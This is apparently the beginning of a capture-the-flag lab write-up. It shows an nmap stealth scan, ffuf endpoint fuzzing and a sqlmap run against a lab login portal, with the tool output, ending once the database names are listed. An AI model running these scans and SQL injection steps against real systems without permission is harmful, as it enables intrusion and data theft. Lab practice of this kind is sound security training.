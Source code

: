 # OVerview
<img width="585" height="167" alt="Screenshot_2025-10-04_01-21-18" src="https://github.com/user-attachments/assets/34bdba68-a1d0-468c-aeac-93b17a8dd742" />

# Reconnaisance
Kicking start the gathering phase with `nmap`, but closely paying attention to the description of the room, I could see that it mentions keeping "quiet". Indirectly implying that I should use stealth scan mode for an effective output
```
 nmap -sN 10.201.111.18               
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-04 01:26 AEST
Stats: 0:00:23 elapsed; 0 hosts completed (1 up), 1 undergoing NULL Scan
NULL Scan Timing: About 99.99% done; ETC: 01:26 (0:00:00 remaining)
Nmap scan report for 10.201.111.18
Host is up (0.36s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE         SERVICE
22/tcp   open|filtered ssh
8000/tcp open|filtered http-alt

Nmap done: 1 IP address (1 host up) scanned in 24.86 seconds
```

I attempted to execute vulnerability lua script scan, but it was so aggressive that would disrupt the operation of the site
Instead of normal port 80 for HTTP service, this server uses unsual port 8000
<img width="1920" height="1003" alt="Screenshot_2025-10-04_01-28-19" src="https://github.com/user-attachments/assets/7d865b86-c132-4db6-ae7b-65d43f06e9a9" />


Next is endpoints enumeration phase
```
ffuf -c  -u "http://10.201.111.18:8000/FUZZ" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
...
login                   [Status: 200, Size: 856, Words: 43, Lines: 26, Duration: 412ms]
register                [Status: 200, Size: 964, Words: 51, Lines: 27, Duration: 414ms]
logout                  [Status: 302, Size: 218, Words: 21, Lines: 4, Duration: 339ms]

...
```

However, there are not anything look like sensitive information leakage or data exposure. I assume that I should switch to another technique, since the site is a login portal, which can potentially be vulnerable to SQLi. 
First I need to capture the request of the site and output it as a file called `request.txt`. Then using tool
```
sqlmap -r request.txt --dbs
...
[01:33:47] [INFO] fetching database names
available databases [3]:
[*] information_schema
[*] performance_schema
[*] website
...
```
